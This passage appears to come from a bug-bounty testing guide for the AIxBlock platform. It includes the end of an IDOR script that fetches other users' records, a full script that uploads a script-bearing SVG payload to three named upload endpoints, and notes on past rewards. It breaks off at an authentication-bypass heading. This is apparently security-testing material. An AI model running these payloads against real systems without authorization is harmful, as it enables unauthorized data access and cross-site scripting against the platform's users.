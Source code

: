 ```python
        url = f"https://api.aixblock.io/users/{user_id}"
        response = requests.get(url, cookies=cookies)
        
        if response.status_code == 200:
            print(f"POTENTIAL IDOR: Can access user {user_id}")

# Run the test
test_idor_vulnerability()
```

### Test 2: File Upload XSS
**Target**: File upload functionality
**Previous Success**: $200 reward for SVG XSS

```python
# Test Script: file_upload_xss.py
import requests

def test_svg_xss():
    # Malicious SVG payload
    svg_payload = '''<?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
    "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
       <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
       <script type="text/javascript">
          alert('XSS_VULNERABILITY_FOUND');
       </script>
    </svg>'''
    
    # Upload to different endpoints
    upload_endpoints = [
        'https://app.aixblock.io/upload',
        'https://api.aixblock.io/files/upload',
        'https://workflow.aixblock.io/upload'
    ]
    
    cookies = {'sessionid': 'YOUR_SESSION_ID'}
    
    for endpoint in upload_endpoints:
        files = {'file': ('test_xss.svg', svg_payload, 'image/svg+xml')}
        response = requests.post(endpoint, files=files, cookies=cookies)
        
        print(f"Upload to {endpoint}: Status {response.status_code}")
        if 'uploaded' in response.text.lower():
            print("FILE UPLOADED - Check if XSS executes when accessed")

test_svg_xss()
```

### Test 3: Authentication Bypass
**Target**: Login and session management
**Previous Success**: $450 reward for auth bypass

